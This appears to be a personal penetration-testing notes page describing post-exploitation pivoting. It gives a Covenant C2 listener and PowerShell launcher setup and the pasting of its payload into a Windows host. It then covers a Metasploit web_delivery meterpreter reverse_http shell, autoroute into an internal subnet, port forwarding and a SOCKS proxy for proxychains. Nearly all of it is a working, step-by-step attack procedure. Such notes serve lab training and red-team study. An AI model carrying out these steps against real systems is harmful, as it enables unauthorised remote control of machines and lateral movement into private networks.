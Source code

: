 ![image](https://0xc0rvu5.github.io/docs/assets/images/20221125053123.png)
- Alternatively:
	- Check in `Convenant`
		- `GetRegistryKey HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

### Session Passing to Metasploit SOCKS, and the Autoroute Module
- Open a grunt with `Covenant`
	- [[Covenant Quick Shell on Windows Host]]
```bash
- Open `Covenant`
	- Set up a listener in `Listeners` tab
		- Name: `HTTP Listener`
		- ConnectAddress: `your-ip-address`
		- `Create`
	- Set up a launcher in `Launchers`
		- `PowerShell`
			- Listener: `HTTP Listener`
			- DotNetVersion: `Net40`
				- For a short link: `Net35` **Net35 is manditory when using `msiexec` and fodhelper i.e. `helper.ps1`**
			- KillDate: `some date in future`
			- `Generate`
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20221125031343.png)
```
- Paste the generated payload into the Windows host `powershell.exe` window
```
- On Kali:
	- `msfconsole`
		- `search web_delivery`
		- `use 1`
		- `set target 2` **this sets up a powershell.exe shell**
		- `set payload windows/x64/meterpreter/reverse_http`
		- `set lhost eth0`
		- `set lport 8081`
		- `exploit -j`
		- Copy payload
	- Within the `Covenant` grunt session
		- `powershell copied_payload_here`
	- Back on `Metasploit`
		- `sessions -i 1`
		- `ipconfig`
		- `run autoroute -s 192.168.16.4/24`
		- Verify route is setup:
			- `run autoroute -p`
		- Port forward to access internal network devices that were not accessible before
			- `portfwd add -R -p 2222 -l 443 -L 192.168.3.28`
		- Verify:
			- `portfwd`
		- `CTRL-z`
		- `use auxiliary/server/socks4a`
	- `mousepad /etc/proxychains4.conf`
		- Go to bottom of file and verify the port being used
			- `9050`
	- Back on `Metasploit`
		- `set srvport 9050`
		- `exploit -j`
		- Check active jobs
			- `jobs`
			- Kill `web_delivery` due to it being unecessary now
				- `jobs -k ID`